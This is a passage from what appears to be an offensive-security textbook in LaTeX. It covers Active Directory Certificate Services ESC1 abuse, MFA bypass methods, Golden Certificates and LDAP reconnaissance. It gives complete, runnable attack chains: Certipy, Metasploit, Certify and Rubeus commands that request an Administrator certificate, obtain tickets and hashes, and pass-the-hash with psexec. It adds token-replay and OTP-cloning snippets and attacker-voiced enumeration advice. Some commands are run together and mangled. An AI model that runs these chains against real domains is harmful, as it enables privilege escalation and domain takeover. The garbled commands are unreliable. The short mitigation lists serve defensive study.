    
\includegraphics[width=0.75\linewidth]{certtemp.png}
    \caption{Certificate Template}
    \label{fig:placeholder}
\end{figure}


Edit the properties of the new template Under the \textbf{General tab} where Change Template display name to something like Custom\_ESC1.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{customesc1.png}
    \caption{CA template}
    \label{fig:placeholder}
\end{figure}

Navigate to the \textbf{Subject Name tab} and Select “\textbf{Supply in the request}” → This is the key misconfiguration that allows attackers to request certificates for any user.

\textit{Note: }\textit{Allowing users to manually specify the Subject Name when requesting a certificate enables attackers to request certificates for any username, including Administrator, and, when combined with ESC1 misconfigurations, facilitates privilege escalation.}

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{maketemp.png}
    \caption{Allowing users to manually specify the Subject Name when requesting a certificate enables attackers to request certificates for any username.}
    \label{fig:placeholder}
\end{figure}


\subparagraph{\textbf{Modify Template Permissions}}

Modify Permissions (Access for All Users) navigate to the \textbf{Security tab} where you can see Authenticated Users or Click Add, then type Authenticated Users → Click OK to Select Authenticated Users.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{modtempperm.png}
    \caption{Modifying template permissions}
    \label{fig:placeholder}
\end{figure}


But in this case, we will modify the permissions for the \textbf{Domain Users} group. Click \textbf{Add}, type \textbf{Domain Users}, and then add it to the group.

Select \textbf{Domain Users} and check the following permissions: \textbf{Enroll}

\subparagraph{\textbf{Define Application Policies}}

Expend the property of Custom\_ESC1 certificate and Navigate to the \textbf{Extensions tab} and Select “Application Policies” → This defines how a certificate can be used. 

Click on Edit button

Now select Add button under Application policies box

Here we are required to add the application policies, select Client Authentication and Click on ok.

\subparagraph{\textbf{Publish the Vulnerable Template}}

Once the template is configured, we need to publish it to the Certificate.

Go back to the Certificate Authority (certsrv.msc) window. Right-click Certificate Templates → Click New → Certificate Template to Issue.

Find Vulnerable Template in the list and select it in our case we created it as Custom\_ESC1.

Click OK to publish it.

\paragraph{Why the ESC1 Template is Vulnerable}

At this point, it’s crucial to understand why this template is vulnerable. This is because we commence some misconfiguration as:

Allowing Subject Alternative Name (SAN) Manipulation → Attackers can request a certificate as \href{mailto:Administrator@ignite.local}{Administrator@ignite.local},
\textbf{\textit{Note:}} \textit{This issue occurs in Certificate Template Management (certtmpl.msc) under the “Request Handling” settings in the template. The mistake is that the “Supply in the request” option allows users to specify any Subject Alternative Name (SAN), enabling attackers to request certificates for Administrator, Domain Admins, or service accounts.}

Making Accessible to All Domain Users → Any domain user belonging to domain user group can enroll.
\textbf{\textit{Note:}} \textit{This issue occurs when creating or modifying a certificate template in certsrv.msc or setting “Enrollment Permissions” in Active Directory Users \& Computers (ADUC). The mistake is allowing “Domain Users” group to enroll in the template or granting “Enroll” or “AutoEnroll” permissions to everyone in the group}.

No Additional Approval Needed → No admin intervention is required to issue a certificate.
\textbf{\textit{Note:}} \textit{This issue occurs in Certification Authority MMC (certsrv.msc) under “Certificate Template Properties.” The mistake is allowing certificates to be issued without manual approval, which enables attackers to request an Administrator certificate without triggering alerts.}

This configuration makes the ESC1 attack possible, where a low-privileged user can request a certificate for a privileged account, authenticate using it, and escalate privileges.

\subsubsection{Enumeration and Exploitation Methods}

Once this template is configured, an attacker can use various tools to request an Administrator certificate, demonstrating \textbf{AD CS ESC1 Certificate Exploitation}, and gain elevated access.

Now that the vulnerable certificate template (Custom\_ESC1 or you may have set the another name of template) is configured, the next steps involve:

\paragraph{\textbf{Method 1 : Certipy-ad}}

\textbf{Step 1: Enumerate Certificate Templates}

Before attacking, we must identify vulnerable certificate templates. For this we will use Linux tool name certipy-ad (Certipy-ad – it is a python tool for AD CS attacks)

certipy-ad find -u 'aarti@ignite.local' -p Password@1 -dc-ip 192.168.1.48 -vulnerable -enabledNow it’s time to look for the template that we saved just now and look for “Domain Users” with Enroll permissions. If Vulnerable Template appears in the results which is Custom\_ESC1 in our case, move to the next step.

\textbf{Step 2: Request a Certificate as Administrator}

On Linux (using Certipy), you can run the following command:

certipy-ad req -u 'aarti@ignite.local' -p 'Password@1' -dc-ip 192.168.1.48 -ca ignite-DC1-CA -target 'dc.ignite.local' -template 'Custom\_ESC1' -upn 'administrator@ignite.local'If successful, an authentication certificate will be generated

\textbf{Step 3: Authenticating as Administrator}

Now its time to authenticate with given certificate as an administrator by launching simple command as

certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.1.48\textbf{Step 4: Dump NTLM Hashes for Post Exploitation}

Once authenticated as Administrator, dump NTLM hashes from the Domain Controller

\textbf{Step 5: Lateral Movement \& Privilege Escalation}

After obtaining NTLM hashes, move laterally using Pass-the-Hash (PTH) attacks.

For this using an amazing tool impacket with the command

impacket-psexec ignite.local/administrator@ignite.local -hashes aad3b435b51404eeaad3b435b51404ee:64fbae31cc352fc26af97cbdef151e03

\paragraph{\textbf{Method 2 : Metasploit}}

\textbf{Metasploit}, a powerful penetration testing framework, can automate ESC1 exploitation by:

\textbf{Step 1: Enumerating AD CS misconfigurations}

Before attacking, enumerate certificate templates to check for misconfigurations. Metasploit’s ldap\_esc\_vulnerable\_cert\_finder automates the process of finding misconfigured certificate templates that allow privilege escalation.

Start Metasploit and load the LDAP enumeration module.

msfconsoleuse auxiliary/gather/ldap/ldap\_esc\_vulnerable\_cert\_finderset RHOSTS 192.168.1.48set DOMAIN ignite.localset USERNAME aartiset PASSWORD Password@1run

\begin{itemize}
    \item The RHOSTS is the Domain Controller’s IP address.
    \item The DOMAIN is the target Active Directory domain
    \item The USERNAME \& PASSWORD are for a low-privileged AD user.
\end{itemize}
The module will check misconfigured certificate templates.

Look for:”Domain Users” can enroll

Once a vulnerable template is found, we can request a certificate as Administrator.

\textbf{Step 2: Requesting certificates for privilege escalation}

Load the Certificate Request Module

use auxiliary/admin/dcerpc/icpr\_certset rhosts 192.168.1.48set smbuser aartiset smbpass Password@1set CA ignite-DC1-CAset cert\_template Custom\_ESC1set smbdomain ignite.localrunThis requests a Kerberos authentication certificate for Administrator.

If successful, a .pfx certificate file is saved.

\textbf{Step 3: Using certificates for Pass-the-Certificate (PtC) attacks}

Load the kerberos Module

use auxiliary/admin/kerberos/get\_ticketset rhosts 192.168.1.48set domain ignite.localset action GET\_HASHset username administratorset cert\_file /root/.msf4/loot/20250108132859\_default\_192.168.1.48\_windows.ad.cs\_493919.pfxrunUses NTLM hash authentication to move laterally with your favourite techniques and tools.

\paragraph{\textbf{Method 3 : Certipy.exe}}

\subparagraph{\textbf{Step 1: Vulnerable Certificate Template Existence}}

When logged in with any user belonging to the \textbf{Domain Users} group, such as the \textbf{aarti} user in this case, you can use your preferred tools to confirm the presence of a vulnerable template.  In this Case to do this, run the following command using \textbf{Certify.exe} — a Windows tool that helps enumerate and exploit AD CS vulnerabilities. The command listed below will display all certificate templates and flag any misconfigurations.

Run the command

certify.exe find /vulnerable /currentuserYou can also find for ENROLLEE\_SUPPLIES\_SUBJECT flag little down which confirms your template vulnerable to the attack.

\subparagraph{\textbf{Step 2: Request a Certificate as Administrator}}

Once we identify a vulnerable template, request a certificate for Administrator.

Fire up the command as

certify.exe request /ca:DCI.ignite.localignite-DC1-CA /template:Custom\_ESC1 /altname:ignite.localadministratorRequests a certificate and saves it as a .pfx file (e.g., cert.pfx). You can use tools of your choice or same certify.exe tool to save the requested certificate here we move with the tool openssl to export the certificate

Launch the command as

.openssl pkcs12 -\textbf{in} cert.pem -keyex -csp "Microsoft Enhanced Cryptographicprovider v1.0" -Export -out c:Userspubliccert.pfxAlthough we have successfully generated the authentication certificate, we are unable to access the C\$ share when attempting to list it via SMB by using the command:

dir \textbackslash{}dc1.ignite.localC\$

\subparagraph{\textbf{Step 3: Requesting a Kerberos TGT using the certificate}}

Now lets try Rubeus.exe to obtain a ticket Granting Ticket (TGT) for administrator from the domain controller. If Sucessful , the output will contain a Base64-Encoded TGT

\subparagraph{\textbf{Step 4: Inject the TGT into the current session}}

Once we have TGT, we can inject it into the memory to assume administrator privileges

Just fire the command

.Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /pttThis enables the current session to operate as administrator you can verify it with use of ticket for privilege escalation by just trying to access the path C\$ of DC.

\subsubsection{Mitigation Strategies}

\begin{itemize}
    \item Restrict Certificate Template Permissions → Only privileged users should have enrollment rights.
    \item Enforce Strong Cryptography → Use RSA 3072/4096-bit and SHA-256/SHA-512.
    \item Disable User-defined SAN Attributes → Prevent unauthorized impersonation.
    \item Monitor Certificate Issuance → Enable auditing for Event IDs 4886, 4887, 4768.
    \item Implement Certificate Revocation Policies → Use CRLs and OCSP to invalidate stolen certificates.
\end{itemize}
To prevent AD CS ESC1 certificate exploitation, organizations must implement strong security measures. Regular audits of certificate templates and correct configuration of AD CS can mitigate the risks of such vulnerabilities.

 

\section{\textbf{Advanced Techniques to Bypass Multi-Factor Authentication (MFA) Systems}}

Bypassing MFA is a critical subject for both offensive operators simulating real-world threats and defenders aiming to harden their authentication workflows. This technical guide explores modern MFA bypass methods with code examples and defensive recommendations.

\subsection{\textbf{1. Session Token Replay and Theft}}

\textbf{Attack Overview:}

Once a user completes MFA, the server issues a session token (e.g., cookie or JWT). If stolen, this token can be reused to impersonate the user without reauthentication.

\textbf{(Python):}

\begin{itemize}
    \item import requests
    \item 

    \item stolen\_cookie = \{"session": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."\}
    \item url = "https://target.example.com/dashboard"
    \item 

    \item resp = requests.get(url, cookies=stolen\_cookie)
    \item print(resp.status\_code, resp.text[:200])
\end{itemize}

\textbf{Defensive Measures:}

Issue short-lived tokens

Defensive measures in cybersecurity are critical to protect user data and prevent attacks. One effective step is issuing short-lived tokens. These tokens act as digital keys that grant access to services or information. Making them valid only for a brief period limits the damage if a token is stolen. Attackers can’t use stolen tokens for long, reducing their chance of success. This approach forces hackers to act quickly and discourages prolonged attacks.

Use HttpOnly, Secure, and SameSite=strict cookie flags

Another important technique is setting strict cookie flags. Cookies are small data files stored on a user’s device. Marking cookies as HttpOnly prevents scripts from accessing them. This blocks common hacking methods like cross-site scripting, which aim to steal cookie data. Using Secure flags ensures cookies transfer only over encrypted connections, such as HTTPS. The SameSite=strict flag adds an extra layer by restricting cookie sharing across different sites, making it harder for malicious actors to hijack sessions. Combining these flags helps ensure cookies are used only in trusted contexts, strengthening overall security.

Tie tokens to IP and device attributes

Tying tokens to IP addresses and device attributes is another key measure. When a user logs in, the system associates the token with their IP address and device details. If someone tries to hijack the session from a different IP or device later, the system can detect the mismatch. This makes it much harder for attackers to use stolen tokens without being noticed. It adds an extra barrier that requires hackers to mimic the original device setup, which is often more difficult.

Enable real-time session monitoring and anomaly detection

\subsection{\textbf{2. Phishing Proxies}}

\textbf{Attack Overview:}

Proxy-based phishing tools such as Evilginx transparently relay user input to the legitimate site while intercepting credentials and 2FA tokens.

\textbf{Example Tools:} Evilginx2, Modlishka

\textbf{Defensive Measures:}

\begin{itemize}
    \item Implement phishing-resistant MFA (FIDO2/WebAuthn)
    \item Educate users on identifying spoofed domains
    \item Enforce domain-bound cryptographic operations
    \item Enable TLS pinning and enforce HSTS

\end{itemize}

\subsection{\textbf{3. Push Notification Fatigue}}

\textbf{Attack Overview:}

Attackers abuse push-based MFA by sending repeated prompts, hoping users approve out of habit or annoyance.

\textbf{Example Logic (Pseudo):}

\begin{itemize}
    \item while not authorized:
    \item     auth\_result = sp.send\_push(user)
    \item     if auth\_result == "approved":
    \item         print("Access granted")
    \item         break
\end{itemize}

\textbf{Defensive Measures:}

\begin{itemize}
    \item Limit push retry frequency
    \item Display transaction context (e.g., geo-location, request source)
    \item Train users to recognize and report unauthorized MFA prompts

\end{itemize}

\subsection{\textbf{4. TOTP Seed Extraction}}

\textbf{Attack Overview:}

An attacker who extracts the TOTP seed from a compromised server or system can generate valid one-time codes indefinitely.

\textbf{Code Example (Python):}

\begin{itemize}
    \item import pyotp
    \item 

    \item seed = "JBSWY3DPEHPK3PXP"
    \item totp = pyotp.TOTP(seed)
    \item print("Current OTP:", totp.now())
\end{itemize}

\textbf{Defensive Measures:}

\begin{itemize}
    \item Store TOTP seeds in HSMs or encrypted vaults
    \item Enforce role-based access control and auditing
    \item Prefer passwordless or asymmetric MFA options
\end{itemize}

\subsection{\textbf{5. SIM Swapping}}

\textbf{Attack Overview:}

Attackers trick mobile carriers into transferring a victim's phone number to their own SIM, intercepting SMS-based codes.

\textbf{Defensive Measures:}

\begin{itemize}
    \item Avoid SMS-based MFA
    \item Set PINs on carrier accounts
    \item Detect changes in mobile number and device fingerprints
    \item Use authenticator apps or hardware keys

\end{itemize}

\subsection{\textbf{6. Phishing Real-Time MFA Codes}}

\textbf{Attack Overview:}

Sophisticated phishing attacks gather credentials and real-time TOTP codes from victims via spoofed login pages.

\textbf{Code Logic (Python):}

\begin{itemize}
    \item session = requests.Session()
    \item login = session.post(login\_url, data=\{"user": user, "pass": pwd\})
    \item session.post(otp\_url, data=\{"otp": real\_time\_code\})
\end{itemize}

\textbf{Defensive Measures:}

\begin{itemize}
    \item Adopt phishing-resistant authentication
    \item Monitor for known phishing domains
    \item Integrate domain-bound authenticators (e.g., WebAuthn)

\end{itemize}

\subsection{\textbf{7. Middleware Bypass via Internal Auth Paths}}

\textbf{Attack Overview:}

 Some systems may rely on unprotected backend services (e.g., LDAP, AD) where MFA is not enforced.

\textbf{Code Example (Python + LDAP):}

\begin{itemize}
    \item from ldap3 import Server, Connection, ALL
    \item 

    \item server = Server("ad.internal.local", get\_info=ALL)
    \item conn = Connection(server, user="admin", password="password123")
    \item if conn.bind():
    \item     print("Bound to LDAP without MFA")
\end{itemize}

\textbf{Defensive Measures:}

\begin{itemize}
    \item Enforce MFA at application gateways
    \item Apply conditional access controls
    \item Audit internal authentication workflows

\end{itemize}

\subsection{\textbf{8. Fake Authentication Interfaces}}

\textbf{Attack Overview:}

Users are directed to a rogue web page mimicking an MFA prompt. Entered information is collected but not verified by the legitimate service.

\textbf{Defensive Measures:}

\begin{itemize}
    \item Limit exposure of public login endpoints
    \item Deploy site-wide anti-phishing indicators
    \item Leverage trusted execution environments for MFA prompt validation

\end{itemize}

\subsection{\textbf{9. Man-in-the-Endpoint Exploits}}

\textbf{Attack Overview:}

If attackers gain control of the endpoint device, they can piggyback on authenticated sessions or steal valid tokens directly.

\textbf{Defensive Measures:}

\begin{itemize}
    \item Enforce endpoint posture checks
    \item Utilize full-disk encryption and secure boot
    \item Deploy EDR tools and behavioral analytics

\end{itemize}

\subsection{\textbf{10. Duplicate Code Generators (Seed Duplication)}}

\textbf{Attack Overview:}

By obtaining seed values, attackers clone code generation logic and impersonate users.

\textbf{Code Example (Using pyotp and known seed):}

\begin{itemize}
    \item import pyotp
    \item totp = pyotp.TOTP("MZXW6YTBOI======")
    \item print("Cloned OTP:", totp.now())
\end{itemize}

\textbf{Defensive Measures:}

\begin{itemize}
    \item Prevent seed leakage during setup
    \item Validate device uniqueness
    \item Use asymmetric cryptographic devices (FIDO2)

\end{itemize}

\subsection{\textbf{Summary Table}}

\begin{table}
\centering

\begin{tabular}{l l l}
\textbf{Method} & \textbf{Technique} & \textbf{Defense Strategy} \\
Token Replay & Reuse captured session token & Short TTL, IP binding, revocation \\
Proxy Phishing & MITM with phishing proxy & FIDO2, TLS pinning, HSTS \\
Push Fatigue & Overload approval requests & Limit retries, user training \\
TOTP Extraction & Seed stolen from system & Encrypted storage, rotate secrets \\
SIM Swapping & Carrier number theft & Avoid SMS, use app-based or hardware MFA \\
MFA Phishing & Real-time OTP harvesting & Domain-bound cryptography, detection systems \\
Internal Bypass & Weak backend auth & Enforce gateway MFA, audit control paths \\
Fake Prompts & HTML/CSS look-alike phishing & Browser hardening, liveness checks \\
Compromised Endpoints & Local session hijacking & EDR, device health verification \\
Seed Cloning & Duplicate TOTP generation & HSMs, seed uniqueness, OTP expiry enforcement \\

\end{tabular}

\end{table}

While MFA significantly strengthens access control, it is not invulnerable. A well-informed attacker with knowledge of implementation weaknesses can circumvent MFA using a range of sophisticated techniques. To defend effectively, organizations must understand these threats in depth, enforce layered protections, and continuously test their authentication defenses.

 
%% ---------------- Chapter 39 ---------------- %%
\chapter{Active Directory Certificate Services (AD CS) Exploitation}

Active Directory Certificate Services (AD CS) is a cornerstone of enterprise Public Key Infrastructure (PKI). It provides certificate issuance, lifecycle management, and trust within an Active Directory environment. However, when misconfigured, AD CS can expose critical vulnerabilities that adversaries exploit to escalate privileges or persist within a network. In this chapter, we explore the mechanisms of AD CS, examine common misconfigurations, and dissect real-world attack techniques that leverage weak certificate template permissions, stolen Certificate Authority (CA) keys, and the infamous “ESC” class of vulnerabilities.

\section{Understanding AD CS in Enterprise Environments}

AD CS integrates with Active Directory to issue X.509 certificates, enabling authentication, encryption, and digital signatures. Certificates serve as trust anchors, binding user or machine identities to cryptographic key pairs. The Certificate Authority (CA), central to AD CS, validates requests, signs certificates with its private key, and distributes them across the domain.

Certificate templates streamline this process. They define the rules governing certificate issuance: who may request them, what purposes they serve, and how their identities (subjects and SANs) are constructed. Properly configured templates enforce strict identity mapping. Poorly configured templates, however, may allow low-privileged users to request powerful certificates, effectively bypassing traditional authentication barriers.

\section{The Role of Certificate Templates}

Certificate templates in AD CS dictate:

- The intended purposes of certificates (e.g., client authentication, smart card logon).
- Validity periods and renewal policies.
- Subject naming formats and whether users can supply alternative subject names.
- Permissions that control who can read, enroll, or modify the template.

These templates are themselves Active Directory objects, protected by Access Control Lists (ACLs). When ACLs are too permissive, they open the door to abuse. For instance, if a regular user can modify a template’s properties, they may grant themselves the right to request certificates that map to privileged accounts.

\section{Golden Certificate Attack}

One of the most devastating AD CS exploitation techniques is the \textbf{Golden Certificate attack}. Much like the “Golden Ticket” in Kerberos, this technique grants an attacker nearly unlimited authentication power across the forest.

The attack hinges on theft of the CA’s private key. By default, this key is protected by the Data Protection API (DPAPI) and is marked exportable. Any local administrator on the CA server can extract it using management consoles or offensive tools like Mimikatz and SharpDPAPI.

Once stolen, the CA’s private key allows the adversary to issue their own certificates offline. These forged certificates are indistinguishable from legitimate ones because they are signed by the trusted CA key. With them, the attacker can impersonate any user—including domain administrators—without leaving traces in Active Directory logs. Worse, this persistence lasts as long as the CA’s certificate remains valid, often years.

\section{Template Permissions in Practice}

In secure deployments, certificate templates should be tightly restricted. Unfortunately, in real-world penetration tests and assessments, misconfigured templates are common. During one Cyber Command Readiness Inspection (CCRI), I was tasked to operate as a non-privileged user. Instead of looking for flashy exploits, I focused on enumerating certificate services.

To my surprise, I quickly discovered a template I could modify as a regular user. Its permissions allowed me to alter sensitive properties, including enrollment rights and the subject alternative name (SAN) flag. With these misconfigurations, I could craft a certificate impersonating privileged accounts. What defenders might view as a minor oversight became my entry point into the organization’s most sensitive assets.

This experience highlights why permissions hygiene is vital. Every overly permissive ACE or unnecessary flag compounds risk. A single misconfiguration can collapse the security boundary between a standard employee and a domain administrator.

\section{Finding Vulnerable Templates}

Adversaries rely on reconnaissance to uncover weak certificate configurations. Several tools streamline this process:

\begin{verbatim}
# Using Certify to enumerate templates
Certify.exe find /vulnerable

# Or with Certipy (Python-based)
certipy find -u user@domain.local -p Password123 -dc-ip 192.168.1.10
\end{verbatim}

These tools enumerate all published certificate templates and highlight those with risky configurations—such as \texttt{ENROLLEE\_SUPPLIES\_SUBJECT} or templates allowing authentication EKUs. Once identified, an attacker tests whether a low-privileged account has enrollment or write permissions, opening the door to escalation.

\section{Why This Matters}

Every AD CS misconfiguration represents more than just a technical oversight—it is an operational blind spot. Many organizations invest heavily in patching operating systems, monitoring authentication logs, and hardening firewalls, but they overlook PKI governance. Certificates often live for years, and if abused, they provide stealthy, persistent, and nearly invisible avenues for compromise.

The SpecterOps research that introduced ESC1 through ESC16 demonstrates the scale of the issue. These classifications provide defenders a taxonomy for AD CS abuses, but they also give attackers a roadmap. If administrators fail to audit templates and CA protections, adversaries will exploit them.

\section{Conclusion}

Active Directory Certificate Services is both a backbone of enterprise trust and a potential Achilles’ heel. Properly configured, it ensures secure authentication and encryption across vast environments. Misconfigured, it hands adversaries the keys to the kingdom. Through techniques like Golden Certificates and template abuse, attackers can bypass passwords, persist indefinitely, and impersonate any identity they choose.

The path forward is vigilance: auditing template permissions, restricting CA key access, and continuously monitoring certificate issuance. Anything less leaves the door wide open to the kinds of abuses detailed in this chapter.

%
\section{\textbf{Active Directory LDAP Reconnaissance Techniques}}

Abstract

\subsection{\textbf{LDAP Reconnaissance}}

\textit{\textbf{Shortform:}}\textit{ Querying LDAP to gather information about users, groups, computers, and trust relationships.}

\textbf{Introduction to LDAP Recon + Why Attackers Love It}

\textbf{This segment establishes the mindset, motivations, and strategic rationale behind LDAP-based recon - then we get tactical.}

If you’re inside a Windows domain, and you’re not doing LDAP reconnaissance, you’re walking blind. Period. Active Directory is a goldmine, and LDAP is your proverbial shovel. It doesn’t matter how you got in at this point - phishing, misconfigured services, stolen credentials. The moment you land on a domain-joined machine, LDAP is your roadmap. Who’s in charge. Who’s logged in. What groups have power. What machines are exposed. All of it. And the best part? It’s not stealthy. It’s\textit{ expected behavior.}

LDAP, or Lightweight Directory Access Protocol, is how Windows domains store and retrieve identity data. It’s not some obscure, niche service. It’s core to how Windows works. When users log in, get Group Policy, or resolve user information - LDAP is doing the legwork behind the scenes. Which means your queries blend in with the background noise of legitimate operations. The domain doesn’t blink when you poke it.

As an attacker, that’s the dream. You’re not breaking in anymore. You’re \textit{enumerating. }Planning. Calculating. You’re taking stock of the battlefield. And LDAP gives you full access to Active Directory metadata without needing privileged credentials. As long as you remain authenticated (and you usually are if you’ve compromised a workstation or user account), LDAP will answer each and every one of your questions.

What kind of questions, you ask? Everything from \textit{“Who are the domain admins?” }to \textit{“Which machines do they log into?” }to \textit{“What are the SPNs I can roast?” }to \textit{“Where’s that juicy file share?” }You get the context. And context turns an opportunistic compromise into domain domination.

It gets better. LDAP access isn’t logged by default. You can spray the entire directory with `ldapsearch`, PowerView, or even simple scripts and no one would be the wiser - unless they’ve gone out of their way to configure auditing for that specific LDAP traffic. Spoiler Alert: Most environments have not. If there’s no reason to monitor for that type of traffic, there’s no point in creating monitoring policies or configurations for it.

Let’s make something clear, however: LDAP reconnaissance isn’t “hacking” in the traditional sense. You’re not dropping any payloads. You’re not exploiting vulnerabilities. You’re asking questions. Politely. Using Microsoft’s own protocol. And if you know the right questions to ask, the answers can tell you exactly where to go next - and who to take with you.

So what’s the plan? First, we gather targets: users, groups, computers, services, ports, protocols, applications, the whole gamut. Then we look for escalation paths: privileged accounts, misconfigured ACLs, vulnerable GPOs. Finally, we identify the routes: which workstations are open, who’s logged in where, what tickets are available for abuse. That’s LDAP recon in a nutshell. It’s not just scanning. It’s \textit{planning a takeover.}

In this next section, we’ll start with \textit{user enumeration: }how to pull user lists, analyze attributes, and identify who matters. I’ll show you what to look for and how to script it - with tools like PowerView, `ldapsearch`, and raw queries.

\textbf{Enumerating Domain Users - Who’s Here and Who Matters}

In this section, we get tactical. This section is all about \textit{user enumeration} - the foundation of LDAP recon. Because once you know who the users are, you know who to watch, who to phish, who to impersonate, who to charm, and most importantly, \textit{who holds the keys to the castle.}

Once you’re inside a domain, the first question you need to ask yourself and answer is simple: \textit{“who’s in the directory?” }Every domain user - real, dormant, disabled, admin, low-privilege - is cataloged in Active Directory. And guess what? By default, any authenticated user can query for them. You don’t need elevated permissions. All you need is basic access. If you’re already on a domain-joined workstation with a user token, you’re good to go!

Why start with users? Why not go for the gusto? Because in a Windows domain, everything pivots around identity. File shares, permissions, GPOs, RDP access - they’re all granted based on who you are and what groups you belong to. If you want to move laterally or escalate, you need to \textit{know your targets. }And LDAP gives you a full contact list.

Let’s talk tools for a brief moment. If you’re on Windows and using  , PowerView is your best friend. It’s part of \textbf{PowerSploit}, and it lets you enumerate users with ease. Here’s the most basic command to list all users:

Get-DomainUser

This command will dump every user object in the domain. Want to make it useful? Start filtering:

Get-DomainUser -Properties samaccountname,description,lastlogon |

%    Where-Object \{ \$_.lastlogon -gt 0 \} |
    Sort-Object lastlogon -Descending

Now you’re seeing who is \textbf{active. }These are the people you care about. The ones logging in actively. The ones worth tracking.

Looking for privileged accounts? Parse for naming conventions like `admin,` `svc`, `backup`, or `DA.` You can also look for specific attributes like `adminCount = 1`, which makes accounts protected by the `AdminSDHolder` process. That’s gold.

Get-DomainUser -LDAPFilter "(adminCount=1)"

The command above gives you every user that’s part of a protected group (Domain Admins, Enterprise Admins), even if the group membership was removed but the flag remained. Think of it like digital residue - evidence that the account was, or still might be, dangerous.

Prefer command-line tools from a *nix box or Cygwin shell? You’ve got `ldapsearch`. Here’s how to use it:

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' -b "dc=corp,dc=local" "(objectClass=user)"

That pulls every user object. What it cleaner?

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' -b "dc=corp,dc=local" "(objectCategory=person)" sAMAccountName displayName description

That gives you usernames, real names, and descriptions. Those descriptions? Often goldmines. Admins love to write things like:

\begin{itemize}
    \item `”Backup account for DCs”`
    \item `”Service account for SQL Server”`
    \item `”Temporary Domain Admin”`
\end{itemize}

Read them. Flag them. Hunt them.

You can even pull password policy information to find accounts that \textit{don’t expire passwords:}

